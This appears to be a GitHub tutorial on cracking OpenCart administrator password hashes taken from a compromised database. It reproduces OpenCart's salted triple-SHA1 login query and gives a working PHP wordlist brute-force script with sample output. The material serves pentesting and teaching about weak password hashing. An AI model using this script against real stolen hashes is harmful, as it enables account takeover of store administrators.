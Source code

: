 # Brute Force Attack In OpenCart Stored Passwords.
In this little tutorial I demonstrate how to perform a brute force attack based in word lists on passwords stored in OpenCart application databases.


## SCENERY:
- You have access to the database of an application that uses OpenCart.
- You query the Password Hash and Salt in the administrator table and you get the following result:

| password      						  | salt    | email             | status | username    | lastname | ip        | firstname |
|-----------------------------------------|---------|-------------------|--------|-------------|----------|-----------|-----------|
|f2e9efd4a366507c5b1cba7749659d93d61ae335 |oInuc412L| admin@pentest-server.com 	| 1      | Admin       | das ganbi| 127.0.0.1 | developer |


## PROBLEM:
You are not familiar with the OpenCart password encryption system, so you will try to unmask this `hash` with brute force using services that are based on simple SHA1 encryption.

```php
#exemple:

<?php
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlis.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($string);
   if($hashed==$password){echo "PASSWORD: ".$string;} else{}
}
?>
```


The problem is that `$ password` is not simply a string encrypted with SHA1, or MD5, or SHA1 (MD5) ... Anyway, a usual brute-force script based on these encryption templates would hardly generate a` hash` equal to `hash` that you want to 'unmask'.

## SOLUCTION:
We need to create our own script that will search the hash string in the correct form.
And what would be the correct way?

SE CHECARMOS O ARQUIVO PHP QUE FAZ A AUTENTICAÇÃO DO ADMIN NO OPENCART
`\opencart\system\library\user.php`

WE FIND THE FOLLOWING CODE:
```
$user_query = $this->db->query("SELECT * FROM " . DB_PREFIX . "user WHERE username = '" . $this->db->escape($username) . "' AND (password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "') AND status = '1'");
```

INTERESTING PART:
```
password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "')
```

ADAPTING THE CODE WE HAVE:
```
$password=SHA1($salt.SHA1($salt.SHA1($password)));
```

**obs**: I ignored this part `OR password = '" . $this->db->escape(md5($password)) . "')` since we tested our hash and we already know that it is SHA1, right?


## Now we know how to encrypt the strings of our wordlist to compare with the hash found in the admin table.

A simple php script to test brute force on OpenCart passwords would look like this:


```php
#exemple:

<?php
$salt = "oInuc412L";
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlis.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($salt.SHA1($salt.SHA1($string)));
   if($hashed==$password){echo "PASSWORD: ".$string;} else{}
}
?>
```

```
C:\Users\demo\open-cript-master>php opencript.php
PASSWORD: 12345
```

###### _NEED ME? [pablov3rlly gmail com]_

